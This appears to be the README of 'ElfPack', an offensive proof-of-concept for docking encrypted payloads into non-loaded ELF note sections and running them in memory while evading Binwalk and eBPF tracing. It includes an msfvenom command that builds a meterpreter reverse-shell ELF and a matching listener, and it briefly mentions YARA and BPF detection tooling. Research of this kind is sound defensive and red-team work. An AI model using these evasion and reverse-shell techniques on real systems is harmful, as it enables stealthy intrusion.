

# ElfPack: ELF Binary Section Docking for Stageless Payload Delivery

###  Highlights
- Overview of payload bundling mechanisms: compilation,linking and loading.
- Binary compatibility and creation of loosely coupled payloads to their delivery mechanism.
- Avoiding automatic memory loading of sections. 
- Use of structured section types.
- In-field payload (re-) attachment to loaders via ELF sections. Bring your own payload.
- Signature evasion with detached precompiled ELF sections.
- Drive-by payload attachments to loaders with ayload generation pipeline.
- Creation of fat payload binaries and the case for avoidance of binary packers.
- Packing complex payloads.
- Payload obfuscation and key protection options.
- Static and dynamic paylaod loading tracing resistance. Binwalk and eBPF.

## Embedding payloads

### Hex-binary Inclusion with compilation and linking

1. Directly in default data section or text:
Normally, the compiler places the objects it generates in sections like `.data`.

payload.h: 
```c
const data[3432] = {
    0x43, 0x28, 0x41, 0x11, 0xa3, 0xff,
    ...
    0x00, 0xff, 0x23 
};
```
Achieved manually or with tools like `bin2c` or `xxd -i payload.bin > payload.h` with further header inclusion. 

Storing payloads in `.text` and `.data` in a generic fashion is also a bad idea due to ease of loading tracing,and introspection of behavioral semantics of loading data for execution.


2. In a separate section.
You can place payload data in additional sections, or you need certain particular variables to appear in special sections. This is achieved with a compiler dependent mechanism. In gcc, it's done via `__attribute__`'s. This is a bit better but still well traceable due to how ELF is created and loaded.

```c
char stack[10000] __attribute__ ((section ("binstack"))) = { 
    0x43, 0x28, 0x41, 0x11, 0xa3, 0xff,
    ...
    0x00, 0xff, 0x23 };
int init_data __attribute__ ((section ("bindata"))) = 0;

main()
{
    /* Initialize stack pointer */
    init_sp (stack + sizeof (stack));

    /* Initialize initialized data */
    memcpy (&init_data, &data, &edata - &data);
}
```

3. Linker binary inclusion

Assembler dependent `.incbin`-like directive can create a section and embed a payload. 
Ex: `gcc -c payload.s` or `ld -r -b payload.bin -o payload.o`

```s
.section .bindata

.global payload_start
.type payload_start, @object

.section .binddata
.balign 64

payload_start:
    .incbin "payload.bin"
    .balign 1
payload_end:
    .byte 0
```

With further retrieval in loader as:

```c
int main(void) {
    extern uint8_t payload_start;
    uint8_t *ptrPayload = &payload_start;
    ...
}
```
_Note:_ We can include a fully functional ELF in the `payload.bin` which is important when it comes to creating "fat" binaries, containing elements of several toolkits. 

_Note:_: More ergonomic tools exist to accomplish the task, like `INCBIN` from @graphitemaster [link]

A variation on the theme is inline ASM like so:

```c
/* Raw image data for all embedded images */
 #undef EMBED
 #define EMBED( _index, _path, _name )                                   \
         extern char embedded_image_ ## _index ## _data[];               \
         extern char embedded_image_ ## _index ## _len[];                \
         __asm__ ( ".section \".rodata\", \"a\", " PROGBITS "\n\t"       \
                   "\nembedded_image_" #_index "_data:\n\t"              \
                   ".incbin \"" _path "\"\n\t"                           \
                   "\nembedded_image_" #_index "_end:\n\t"               \
                   ".equ embedded_image_" #_index "_len, "               \
                         "( embedded_image_" #_index "_end - "           \
                         "  embedded_image_" #_index "_data )\n\t"       \
                   ".previous\n\t" );
 EMBED_ALL
 
 /* Image structures for all embedded images */
 #undef EMBED
 #define EMBED( _index, _path, _name ) {                                 \
         .refcnt = REF_INIT ( ref_no_free ),                             \
         .name = _name,                                                  \
         .data = ( userptr_t ) ( embedded_image_ ## _index ## _data ),   \
         .len = ( size_t ) embedded_image_ ## _index ## _len,            \
 },
 static struct image embedded_images[] = {
         EMBED_ALL
 };
 
```
_Note_: Notice PROGBITS in definition of a section, it will be important.

**Compiler/linker-based paylaod binary inclusion is not ideal**

There are tradeoffs:
- The process of embedding is tightly coupled to the creation of payload loader.
- What about payload format changes
- By default data carrying section have PROGBITS flags set on it, and it will be PT_LOAD’ed into memeory by OS loader by default. We ma not want this.


### ELF disk/memory representation of a section


Type of section and flags set on the new section containing determine whether OS loader loads it in the memory upon executable launch. Some sections are loaded automatically by default, others are not (e.g. .symtab, .strtab)

As offense, what effciencies can we get from that?

## Embedding payloads: take 2

1. We can avoid setting flags on sections that assume default loading in memory.

2. We can use a different type of section that does not load in memory.  

> A vendor or system engineer might need to mark an object file with special information that other programs can check for conformance or compatibility. Sections of type `SHT_NOTE` and program header elements of type `PT_NOTE` can be used for this purpose.

In a latter case, we can see the use of this type of section in system binaries:
```sh
$ readelf --sections /bin/tar | grep NOTE
  [ 2] .note.gnu.bu[...] NOTE             00000000000002c4  000002c4
  [ 3] .note.ABI-tag     NOTE             00000000000002e8  000002e8
```
And can inspect their content:

```sh
$ readelf -p .note.ABI-tag /bin/tar

String dump of section '.note.ABI-tag':
  [     c]  GNU
```

The end result of creating a `SHT_NOTE` section will look like this in the ELF:


Bonus: `SHT_NOTE` gets us structure if we need to use it ( and we will use it further): 


## ELF Section Docking

So far we were able to create a section, avoid loading it in memory by the OS loader. The section is effectively dormant in the ELF image at the moment. We will discuss how we load it a bit later. 
However, a more pressing question is the fact that we are still operating at the compiler and linker level, and section is an object that gets woven into the structure of the final ELF, creating relationships and memory addresses from the loader code that references it's content. 


What if we were able to create an ELF section with embedded payload **outside** of the loader compilation workflow, and attach that section at a later time to the loader binary. 

This would break the relationship of the loader code with the section interaction. Then we teach the loader how to find and load it's *foreign* data section, effectively "docking" a payload to a loader in a loosely coupled manner. 

Conceptually, our goals would be:
- Loader should not be entangled with payload semantics
- Loading and executing payload :
    - Without modifying loader code at all?
    - Without using OS loader ld.so (ELF loader) which is loading segments of payload in memory automatically.
- In-field payload (re-)attachment.

The loader/payload (in section) relationship would now look like this:


We can then create an injector which will introduce a payload section to the loader without either one operating at code level, only binary compatibility (and loader being aware how to load **any** payload section)


Some outcomes from such generic ELF section docking setup:

1. Static Elf loader can then be shipped on its own, devoid of payloads, only mechanisms to  load a section on demand and bootstrap the payload from it. 

2. Payload can be packaged separately and bundled with loader at any time as a static stage, or at a later time with an injector. The payload can often be encrypted, often be an ELF executable itself if needed, as long as the loader knows not the structure of the payload but it's packaging capabilities only. 

3. Injector can broker attachment of sections from several binaries (dormant stages) to construct a section and inject into the loader.

4. There are advantages for section level construction vs. packing of multiple resources in executable. There is no overhead on detection for packer processing and code. There are wins in terms of carrying multiple sections with other tooling that relies on in-memory launch and cannot be easily packed due to how packers have to extract binaries into filesystem. (Far binaries section further)

## ELF docking components:

Let's discuss the ELF section docking components in greater detail.

### Sectional ELF injector:
Disposition: rear or in-field 
Advantages:
- Agnostic loader to payload proxy
- Streamlined payload generation pipeline
- In field payload to loader attachment without compilers if needed

### Sectional ELF loader: 
Disposition: in-field
Advantages: 
- Agnostic to attached payload
- Loads full ELFs or shellcode (more possibilities) from reading and parsing its own binary.
- If you need shellcode you can create a running elf out of it (e.g. Metasploit's mettle)
- Tracing does not see mprotect()’s 
- Airgapped separation between where the payload is and  normal .DATA arrays. 
- This achieves abstraction for tracers.
- Ability to accept and forward arguments to payloads themselves

### Binary Payload:
Advantages:
- Payload is a fully functional program with less constraints, data, segments LDD intact.
- It can be uniquely obfuscated without regard to space (.NOTE records are variable size)
- It can be extracted to FS or run as part of a table of contents (fat payload loaders).
- It does not need to be relocated, can be chained to other loaders.
- Example of cross-attachment and detection evasion: Loader A reads Loader B’s payload.

## Evasion opportunities
Strengthening ELF sectional injector/packer:
- XOR’d payload but AES may be implemented.
- XOR key metadata stored out in out of band watermark. 
- XOR keys are not disclosed.
- Additional XOR’d data obfuscation possible.

Strengthening ELF loader:
- XOR’d payload default, but AES may be implemented.
- XOR key metadata is mined in out of band watermark.
- Separation of time of loader launch != time  of payload load if needed.
- Facility for daemonization (ability to work with userland exec amd memfd_create)
- Possibility of evasion for payload  entropy calculation and anti-carving: Binwalk does not see payload by default, can’t carve (example  in demo: packing msfvenom'd payload)

## ELF section docking toolkit-specific loader discussion:

A few words on the ELF sectional loader working with the payload launcher:

Loader can utilize one of two in-memory payload execution mechanisms:

- Option A : SYS_Memfd_create ()
	- Done with libreflect[]link] but may be done with zombieant pre-loader[link]
    - More detectable at levels:
		j anonymous file in /proc/self/fd/
		- uses sys_memfd_create (syscall #319)  
	- Does fork/exec, BPF tracing for execve() will record.

- Option B: User land Exec (https://grugq.github.io/docs/ul_exec.txt)
	- Done with libreflect for now. Nice interface.
	- Hollows out the loader and overlays with payload.
	- No sys_enter_exec /sys_exit_exec calls. BPF tracing for execve() not catching
	- Downside: you cannot daemonize via loader (loader memory kaput on overlay)
		but the payload can daemonize itself when launches:	
		the beauty of shipping ELF binaries vs. shipping shellcode  


Workflow run:




Binwalk's evasion opportunities after ELF sectional payload vs. MSF payload:


eBPF evasion vs. ELF sectional packer:


### Detection tooling:

YARA Verifier and tests:


STIX tooling definition:


 

## Building ELFPack POC

- For Cmake: before clean build run: `cmake --configure .` to configure your build environment. We support CMAke 3.18 atm.
- `./build.sh`

### ELFPack Dependencies:
- We use libreflect library for this POC from `https://github.com/rapid7/mettle`
- it's built for you and distributed under `vendor/lib/reflect/libreflect.a` but can be rebuilt from the original repo if needed.
- Runtime: If you would like to play with BPF and `bpftrace` polease install appropriate kernel headers for your distribution.

### Usage
- Frontend: See `run.sh`
- Backend: This PoC operates with mettle metasploit implant so to catch your traffic on the MSF server you would use `aux/msfrc` RC file likes so:
```shell
msfconsole -r aux/triage/msfrc
```
- The MSF payload (mettle) may be generated as follows:
```shell
msfvenom -p linux/x64/meterpreter_reverse_http LHOST=127.0.0.1 LPORT=4443  -f elf > ../elfpack_staging/mettle-shell.elf
```
- BPF tracing can be done as follows (you need root):
```shell
sudo bpftrace aux/triage/elfpack_BPF_snoop_rules.bt
```
- YARA integration example via Python bindings can be seen in `aux/triage/elfpack_yar.py`
```shell
./aux/triage/elfpack_yar.py <path/to/elf/file> [elf_section]
```


